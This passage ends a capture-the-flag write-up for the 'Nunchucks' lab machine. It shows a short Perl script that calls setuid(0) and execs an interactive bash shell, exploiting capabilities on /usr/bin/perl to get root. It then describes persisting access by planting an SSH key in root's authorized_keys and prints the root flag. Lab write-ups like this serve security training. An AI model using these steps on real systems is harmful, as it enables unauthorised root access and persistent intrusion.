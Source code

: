 The goal is to put this in practice to obtain an elevated shell.

I'll create a `privesc.pl` file to execute `/bin/bash`:

```pl
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "/bin/bash -i"
```

Then, I'll make it executable.

### Exploitation

Let's abuse `/usr/bin/perl`'s capabilities to get a shell as `root`:

```sh
david@nunchucks:~$ /tmp/privesc.pl
```

```
root@nunchucks:~#
```

Nice!

### Establishing persistence

Let's use SSH to establish persistence.

Our home folder contains a `.ssh` folder. There's no existing private key, so
I'll create one, and I'll add the corresponding public key to `authorized_keys`.
Finally, I'll connect over SSH to Nunchucks as `root`.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@Nunchucks:~# cat "/root/root.txt"
```

```
5dcb2897a0d8b80c7c91ad2cbe4d5649
```

# Afterwords
